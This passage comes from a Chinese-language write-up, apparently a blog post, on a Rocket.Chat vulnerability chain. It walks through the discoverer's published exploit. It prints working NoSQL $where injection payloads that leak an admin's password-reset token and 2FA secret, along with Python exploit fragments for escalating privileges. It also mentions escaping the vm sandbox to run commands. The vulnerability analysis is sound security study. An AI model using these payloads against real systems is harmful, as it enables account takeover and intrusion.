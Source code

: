 攻击者可以传入这样的 query：``{`"$where":"this.username==='admin' &amp;&amp; (()=&gt;`{` throw this.secret `}`)()"`}``，就会构成下面这样的查询语句，意为查询 username 为 admin 的用户并将他的信息通过报错输出。

```
Users.find(
    `{`
        "$where":"this.username==='admin' &amp;&amp; (()=&gt;`{` throw JSON.stringify(this) `}`)()"
    `}`, 
    `{`/*...*/`}`
).fetch();
```

通过这个漏洞，就可以获得 admin 的修改密码的 token 和 2FA 的密钥，即可修改 admin 的密码，达到了提权的目的。Rocket.Chat 还为管理员账户提供了创建 web hooks 的功能，这个功能用到了 Node.js 的 vm 模块，而 vm 模块可以通过简单的原型链操作被逃逸，达到任意命令执行的效果。至此，我们了解到了这一个命令执行漏洞的所有细节，接下来就通过分析漏洞发现者提供的 exp 来讲一下漏洞利用的过程。



## 0x04 漏洞利用

这部分内容基于[漏洞发现者给出的 exp](https://www.exploit-db.com/exploits/50108)，并结合我在复现过程中遇到的问题提出改进意见。

```
# Getting Low Priv user
print(f"[+] Resetting `{`lowprivmail`}` password")
## Sending Reset Mail
forgotpassword(lowprivmail,target)

## Getting reset token through blind nosql injection
token = resettoken(target)

## Changing Password
changingpassword(target,token)
```

首先通过 getPasswordPolicy() 处的 token 泄露漏洞，修改普通用户的密码。然而需要注意的是，修改密码的 token 长度为 43 个字符，这个爆破的工作量是很大的，且耗时非常长。因此在获取普通用户权限这一步，可以直接通过注册功能完成，而不需要爆破验证的 token。试想若是攻击目标关闭了注册功能，那意味着我们无法获取到已注册用户的信息，也就无计可施了。

```
# Privilege Escalation to admin
## Getting secret for 2fa
secret = twofactor(target,lowprivmail)
```

第二步是获取管理员账号的 2FA 密钥，其中的 twofactor() 利用了第二处漏洞。

```
def twofactor(url,email):
    # Authenticating
    # ...
    print(f"[+] Succesfully authenticated as `{`email`}`")

    # Getting 2fa code
    cookies = `{`'rc_uid': userid,'rc_token': token`}`
    headers=`{`'X-User-Id': userid,'X-Auth-Token': token`}`
    payload = '/api/v1/users.list?query=`{`"$where"%3a"this.username%3d%3d%3d\'admin\'+%26%26+(()%3d&gt;`{`+throw+this.services.totp.secret+`}`)()"`}`'
    r = requests.get(url+payload,cookies=cookies,headers=headers)
    code = r.text[46:98]
```
